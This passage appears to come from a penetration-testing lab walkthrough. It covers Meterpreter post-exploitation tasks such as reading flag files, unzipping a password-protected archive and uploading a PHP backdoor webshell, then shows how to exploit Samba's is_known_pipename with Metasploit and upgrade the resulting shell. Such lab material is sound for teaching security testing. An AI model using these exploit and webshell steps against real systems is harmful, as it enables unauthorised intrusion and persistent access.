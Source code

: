 ```shell
cat /app/flag1

# 7. Change the present working directory to a suspiciously named directory in /app and read the flag from a hidden file present in that directory.
cd "Secret Files"
ls
cat .flag2

# 8. Get the flag5.zip to local machine, open it using password 56784. The information given in the extracted file will give clue about the location of the another flag.
ls
unzip flag5.zip
cat list

# 9. Delete the .zip file from the directory.
rm flag5.zip

# 10. Print checksum of file mentioned in the extracted file (Refer to Q8).
checksum md5 /bin/bash

# 11. Check the PATH environment variable on the remote machine.
getenv PATH

# 12. There is a file with string “ckdo” in its name in one of the places included in PATH variable. Print the flag hidden in that file.
search -d /usr/bin -f *ckdo*

# 13. Change to tools directory on the local machine.
lcd /root/Desktop/tools

# 14. Upload a PHP webshell to app directory of the remote machine.
upload /usr/share/webshells/php/php-backdoor.php
```

### 7.2. Upgrading Command Shells to Meterpreter

Upgrading a command shell to a Meterpreter shell in Metasploit is a powerful technique during penetration testing, as Meterpreter provides advanced features that are not available in a standard command shell. Meterpreter is a sophisticated payload that provides an interactive shell and allows for extensive post-exploitation activities, such as file system browsing, process manipulation, and network pivoting. 

**Objective**: Exploit the vulnerable service using suitable Metasploit module and then upgrade the command shell session to a meterpreter session.

```shell
service prosgresql start && msfconsole
workspace -a upgrading_shell
db_nmap -sV <target_IP>

search type:exploit samba
use exploit/linux/samba/is_known_pipename
show options
set RHOSTS <target_IP>
run

# Now we got a typical Linux command shell.
ls
pwd
/bin/bash -i 
background # or CTRL + Z
sessions

```